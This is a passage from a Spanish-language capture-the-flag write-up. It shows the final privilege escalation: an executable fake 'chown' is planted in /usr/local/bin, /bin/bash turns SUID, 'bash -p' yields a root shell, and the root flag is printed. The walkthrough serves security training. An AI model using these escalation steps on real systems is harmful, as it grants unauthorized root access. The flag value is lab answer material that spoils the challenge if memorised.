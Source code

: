 Establecemos los permisos de ejecuccion.

```shell
chmod +x /usr/local/bin/chown
```

Lo guardamos y esperamos un rato a ver si surge efecto, despues de un rato si listamos la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Veremos que ha funcionado, por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
b9b38d9533ca00072eff46338bf21b43
```

